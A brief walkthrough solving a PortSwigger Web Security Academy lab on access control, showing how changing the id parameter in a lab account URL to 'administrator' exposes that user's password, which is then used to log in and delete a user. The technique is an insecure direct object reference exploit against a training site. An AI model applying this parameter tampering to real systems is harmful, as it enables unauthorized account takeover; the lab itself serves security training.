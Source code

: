 # Lab: User ID controlled by request parameter with password disclosure
# https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/access-control-apprentice/access-control/lab-user-id-controlled-by-request-parameter-with-password-disclosure
```bash
# Login as wiener

# Go to my account page

https://0a5a00520306218b8015df1d00300079.web-security-academy.net/my-account?id=wiener

# Change url to:

https://0a5a00520306218b8015df1d00300079.web-security-academy.net/my-account?id=administrator
```
```bash
# Check /my-account?id=administrator from http history.

# We found password:

teyv39ochha08gkg94xn
```
```bash
# Login as administrator

# Go to admin panel and delete carlos to solve the lab.
```

